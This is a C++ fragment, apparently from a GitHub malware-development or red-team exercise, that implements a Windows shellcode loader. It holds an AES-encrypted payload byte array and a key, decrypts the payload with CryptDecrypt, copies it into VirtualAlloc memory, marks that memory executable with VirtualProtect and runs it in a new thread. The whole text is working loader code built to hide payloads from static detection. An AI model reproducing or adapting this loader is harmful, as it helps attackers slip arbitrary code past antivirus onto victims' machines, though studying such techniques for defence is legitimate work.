 ```c++
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
                return -1;
        }
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);  
        return 0;
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	unsigned char calc_payload[] = { 0x3f, 0x9d, 0x4, 0x52, 0x9c, 0x99, 0x8e, 0x50, 0x35, 0x14, 0xd, 0xa8, 0x8e, 0xf9, 0x74, 0x85, 0x16, 0xc5, 0x6c, 0xf7, 0xb3, 0xd0, 0x3f, 0x72, 0x4e, 0xfa, 0x7d, 0x3b, 0xe4, 0x39, 0xc5, 0xcb, 0x7c, 0xdf, 0xb2, 0xa0, 0xd2, 0xac, 0xca, 0x63, 0x2e, 0x31, 0xb, 0xf4, 0x1b, 0xfb, 0x10, 0xba, 0x2b, 0x7d, 0x47, 0x46, 0xce, 0x79, 0x7c, 0x79, 0x19, 0x4c, 0x9a, 0xca, 0x2f, 0xf3, 0x1e, 0x50, 0x28, 0x63, 0x65, 0x4e, 0x84, 0x8e, 0x43, 0x62, 0xcc, 0xc6, 0xb3, 0x5, 0x8b, 0x12, 0x9e, 0xc8, 0x33, 0x55, 0xe8, 0xe2, 0x5e, 0xe, 0x8d, 0x6f, 0xb3, 0xa8, 0x87, 0x11, 0xcb, 0xc8, 0x68, 0x86, 0x56, 0x94, 0xfd, 0xb2, 0x9a, 0x84, 0x42, 0x6e, 0xd5, 0x38, 0x0, 0x63, 0xd1, 0xbe, 0x80, 0xa, 0xe6, 0xc0, 0xf8, 0x22, 0x63, 0xb6, 0x85, 0x85, 0xe3, 0x8, 0xe3, 0xac, 0x1e, 0xa3, 0x1, 0x39, 0xca, 0x71, 0xd3, 0xd8, 0x8d, 0x83, 0x8f, 0xa4, 0x5b, 0x1b, 0x3e, 0xc6, 0x86, 0x6f, 0xb9, 0xd9, 0x5d, 0x29, 0x4b, 0x16, 0x7d, 0xbf, 0x2e, 0xa2, 0x1d, 0x6f, 0x5e, 0xf6, 0x62, 0x54, 0x22, 0x87, 0x4, 0x8a, 0xd6, 0x1c, 0xff, 0x42, 0xf4, 0x3c, 0xa3, 0xfc, 0x50, 0x7d, 0x1c, 0xa3, 0xc3, 0xe, 0xdc, 0x1a, 0x7d, 0x1f, 0x9c, 0x41, 0xd4, 0xa7, 0x31, 0x5e, 0x7d, 0x37, 0x2f, 0x6f, 0xec, 0x71, 0x9a, 0x24, 0xe6, 0x8e, 0x2c, 0x71, 0x6f, 0x4f, 0x4b, 0x19, 0xf1, 0xbb, 0x66, 0xbd, 0x6d, 0xbd, 0x16, 0x70, 0x8a, 0x8b, 0x29, 0x56, 0xbd, 0xe6, 0x6a, 0x46, 0xf9, 0x60, 0x8a, 0xa1, 0x5b, 0x81, 0x1c, 0x2, 0x53, 0xb3, 0xdf, 0x2b, 0xcc, 0xae, 0x4d, 0x7a, 0xf7, 0x0, 0xa, 0x47, 0xbb, 0x33, 0xdf, 0x1f, 0x32, 0xba, 0x25, 0xf7, 0x58, 0x5, 0x9e, 0xc5, 0xe4, 0x4e, 0xdf, 0x57, 0xd1, 0x69, 0xa9, 0x96, 0x50, 0xbf, 0xde, 0x3d, 0x26, 0xe0, 0x6, 0xe0, 0x46, 0x25, 0x23, 0x40, 0x7e, 0xe2, 0xa2, 0x3c, 0x2a, 0x92, 0xe5, 0x95, 0xff, 0x81, 0x7c, 0x42, 0x61, 0x3, 0xac, 0xdc, 0x91, 0x8f };
	unsigned int payload_len = sizeof(calc_payload);
	char key[] = { 0x95, 0x21, 0x49, 0x58, 0x98, 0xe8, 0x50, 0xef, 0x36, 0x29, 0x22, 0x93, 0x9e, 0xce, 0x25, 0xc3 };
	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("\nSotred payload in .data section %-20s : 0x%-016p\n", "payload addr", (void *)calc_payload);
	printf("\n [VirtualAlloc] of new moemory region %-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
	AESDecrypt((char *) calc_payload, payload_len, key, sizeof(key));
	printf("\n Decripted payload AES %d\n", (void *)calc_payload);
	printf("\n Decripted pyaload AES 0x%-016p\n", &calc_payload);
	getchar();
	printf(" [RtlMoveMemory] copy data \n");
	RtlMoveMemory(exec_mem, calc_payload, payload_len);
	printf(" [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ \n");
	getchar();
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	printf(" [CreateThread] Exec stored payload \n");
	getchar();
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}
```